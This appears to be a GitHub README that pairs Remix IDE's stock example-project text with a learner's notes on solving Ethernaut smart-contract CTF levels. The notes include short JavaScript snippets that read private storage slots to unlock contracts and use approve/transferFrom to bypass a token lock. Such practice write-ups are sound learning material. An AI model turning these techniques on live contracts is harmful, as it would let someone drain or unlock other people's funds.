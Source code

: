 REMIX EXAMPLE PROJECT

Remix example project is present when Remix loads for the very first time or there are no files existing in the File Explorer. 
It contains 3 directories:

1. 'contracts': Holds three contracts with different complexity level, denoted with number prefix in file name.
2. 'scripts': Holds two scripts to deploy a contract. It is explained below.
3. 'tests': Contains one test file for 'Ballot' contract with unit tests in Solidity.

SCRIPTS

The 'scripts' folder contains example async/await scripts for deploying the 'Storage' contract.
For the deployment of any other contract, 'contractName' and 'constructorArgs' should be updated (along with other code if required). 
Scripts have full access to the web3.js and ethers.js libraries.

To run a script, right click on file name in the file explorer and click 'Run'. Remember, Solidity file must already be compiled.

Output from script will appear in remix terminal.

### Vault

https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188

Was solved using just Javascript with the help of 

https://cmichel.io/ethernaut-solutions/

```
await contract.unlock( (
    await web3.eth.getStorageAt(contract.address, 1)
) );
```
### Re-entrancy

https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D

I am not sure I fully get how this worked. The first try, using [ReentranceAttack.sol from Ethernaut](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/attacks/ReentranceAttack.sol), did not work. However, using [Christoph Michel](https://cmichel.io/ethernaut-solutions/) did work. 

I need to study this topic further since it is one that has recently been used (I think with Elephant.money).

Maybe take a look at ... 

* https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
* https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/
* https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742
* https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern


### Privacy

https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B

This one was similar to the Vault, where I needed to access the private value via the `getStorageAt()` function. That part I go right, but I struggled with processing the value correctly. 

```
const keyData = await web3.eth.getStorageAt(contract.address, 5);

// keyData = 0xb301d4297362fcf4a1c2af4cf9d84bbdfcc7b45ad2ab96796b13229669b609aa

const key16 = `${keyData.slice(0, 34)}`

// '0xb301d4297362fcf4a1c2af4cf9d84bbd'

await contract.unlock( key16 )

```

### Gatekeeper Two
_Difficulty 6/10_

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:
* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
* The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.

```
0: uint256: 0
1: uint64: 14006537356739165594
2: uint64: 18446744073709551615
```

### Naught Coin

```
contract.approve(player, (await contract.balanceOf(player)).toString());
contract.transferFrom(player, '0xf332295db2AA2d8A6FDdD4a2C8f342EE40CC2DcC', (await contract.balanceOf(player)).toString());

```

### Recovery

This one was a bit tricky. I needed to do it with some `ethers` Javascript rather than a Solidity contract. I was able to find the contract address via etherscan and transactiion. The code provided by https://cmichel.io/ethernaut-solutions/ was helpful, but it did not solve the problem. 

https://rinkeby.etherscan.io/tx/0xce4c51d4cf9c49a298df494bd9d8ba1d0c482ef8bc517fc4312b3612b38ff1d7